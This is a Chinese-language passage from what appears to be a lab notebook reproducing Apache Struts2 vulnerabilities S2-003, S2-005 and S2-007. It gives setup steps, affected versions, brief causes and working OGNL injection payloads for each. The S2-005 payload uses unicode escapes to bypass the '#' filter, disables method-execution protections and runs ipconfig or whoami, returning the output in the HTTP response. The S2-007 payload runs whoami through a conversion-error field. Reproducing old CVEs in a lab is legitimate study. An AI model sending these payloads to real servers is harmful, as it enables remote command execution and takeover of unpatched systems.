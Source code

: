 ** 环境搭建 **

[下载](http://archive.apache.org/dist/struts/binaries/struts-2.0.1-all.zip)

解压，将其中的`struts2-showcase-2.0.1.war` 拷贝到`\tomcat\webapps`下，这里重命名了`s2-003`

[参考](https://www.jianshu.com/p/c412c2961715)

复现没有回显。

##### S2-005

** 影响版本 **

	Struts 2.0.0 - Struts 2.1.8.1

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-005)


S2-005是由于官方在修补S2-003不全面导致绕过补丁造成的。我们都知道访问Ognl的上下文对象必须要使用#符号，S2-003对#号进行过滤，但是没有考虑到unicode编码情况，导致\u0023或者8进制\43绕过。
S2-005则是绕过官方的安全配置（禁止静态方法调用和类方法执行），再次造成漏洞。


**POC**

	?('\u0023context[\'xwork.MethodAccessor.denyMethodExecution\']\u003dfalse')(bla)(bla)&('\u0023_memberAccess.excludeProperties\u003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('\u0023mycmd\u003d\'ipconfig\'')(bla)(bla)&('\u0023myret\u003d@java.lang.Runtime@getRuntime().exec(\u0023mycmd)')(bla)(bla)&(A)(('\u0023mydat\u003dnew\40java.io.DataInputStream(\u0023myret.getInputStream())')(bla))&(B)(('\u0023myres\u003dnew\40byte[51020]')(bla))&(C)(('\u0023mydat.readFully(\u0023myres)')(bla))&(D)(('\u0023mystr\u003dnew\40java.lang.String(\u0023myres)')(bla))&('\u0023myout\u003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('\u0023myout.getWriter().println(\u0023mystr)')(bla))



![](http://opmi2ydgh.bkt.clouddn.com//18-1-8/82304633.jpg)

更改命令为whoami，提示下载文件。文件中含有执行命令的结果。

![](http://opmi2ydgh.bkt.clouddn.com//18-1-8/43559389.jpg)


##### S2-007

** 影响版本 **

	Struts 2.0.0 - Struts 2.2.3

[官方链接](https://cwiki.apache.org/confluence/display/WW/S2-007)

当有转换错误时，用户输入被评估为OGNL表达式。这允许恶意用户执行任意代码。



* POC

	' + (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())) + '
